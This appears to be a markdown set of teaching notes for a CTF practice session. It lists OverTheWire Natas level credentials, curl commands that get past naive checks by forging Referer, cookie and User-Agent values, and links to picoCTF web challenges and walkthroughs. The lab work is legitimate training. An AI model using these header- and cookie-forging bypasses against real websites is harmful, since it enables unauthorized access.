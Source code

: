 # TryHackMe.com signup (we'll be using this website next week)
https://tryhackme.com/
# Natas CTF Links and Passwords
## Natas Level 4
http://natas4.natas.labs.overthewire.org/
username: natas4
password: QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
### Curl Command
curl -vv -u "natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" http://natas4.natas.labs.overthewire.org/
### Solution Command
curl -vv -u "natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" -H "Referer: http://natas5.natas.labs.overthewire.org/" http://natas4.natas.labs.overthewire.org/
## Natas Level 5
http://natas5.natas.labs.overthewire.org/
username: natas5
password: 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
### Curl Command
curl -vv -u "natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK" http://natas5.natas.labs.overthewire.org/
### Solution Command
curl -vv --cookie "loggedin=1" -u "natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK" http://natas5.natas.labs.overthewire.org/

# Last Session's Exercises
## Cookies
https://play.picoctf.org/practice/challenge/4?category=1&page=2&search=
YouTube walkthrough:
https://youtu.be/_yUeu0xfXZ8

## includes
https://play.picoctf.org/practice/challenge/274?category=1&page=1&search=
YouTube walkthrough:
https://youtu.be/ecnV7L3tzWQ

## roboto sans
https://play.picoctf.org/practice/challenge/291?category=1&page=3&search=
YouTube walkthrough:
https://youtu.be/b6ZjzsEAka0

## secrets
https://play.picoctf.org/practice/challenge/296?category=1&page=2&search=
YouTube walkthrough:
https://youtu.be/zAD2PH22Y5M

# This Session's Exercises
## Cookies
https://play.picoctf.org/practice/challenge/173?category=1&page=1
### YouTube walkthrough
https://youtu.be/HERP6hCcXSk

## Logon
https://play.picoctf.org/practice/challenge/46?category=1&page=1
### YouTube walkthrough
https://youtu.be/HtYul9Xr0x8

## picobrowser
https://play.picoctf.org/practice/challenge/9?category=1&page=4
### Solution Command
curl -vv -A picobrowser https://jupiter.challenges.picoctf.org/problem/28921/flag
### YouTube walkthrough
https://youtu.be/dnhHerwGH2E

## GET aHEAD
https://play.picoctf.org/practice/challenge/132?category=1&page=1
### YouTube walkthrough
https://youtu.be/T11mJqIgy54

# Extra Credit Challenge
## Who are you?
https://play.picoctf.org/practice/challenge/142?category=1&page=3

